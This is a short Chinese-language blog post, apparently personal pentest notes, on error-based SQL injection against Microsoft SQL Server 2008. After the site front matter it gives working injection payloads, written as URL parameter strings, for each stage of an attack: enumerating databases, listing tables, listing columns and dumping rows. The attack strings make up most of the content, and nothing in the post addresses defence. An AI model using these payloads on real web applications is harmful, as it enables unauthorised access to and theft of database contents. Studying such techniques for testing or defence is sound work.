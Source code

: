 ```yaml
---
title: "MSSQL 显错注入"
date: 2018-01-15T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



MSSQL 显错注入

<!--more-->

听说 mssql 不同版本的注入语句不同 这里的版本是 mssql 2008.

`db_name() 当前数据库`

`user 当前用户`

`@@version 版本`


**爆库语句**

`id=1 and (select name from master.dbo.sysdatabases where dbid=1)>0`

master.dbo.sysdatabases == master..sysdatabases

**爆表语句**

`id=1 and (select top 1 cast(name as varchar(100))%2b'^'%2bcast(id as varchar(100)) from 数据库.dbo.sysobjects where xtype='U')>0`

**暴列语句**

`id=1 and (select top 1 name from 数据库.dbo.syscolumns where id=id)>0`

**爆数据语句**

`id=1 and (select top 1 cast(列名1 as varchar(100))%2b'^'%2bcast(列名2 as varchar(100)) from 数据库.dbo.表名)>0`

同数据库的话可以直接 from 表名.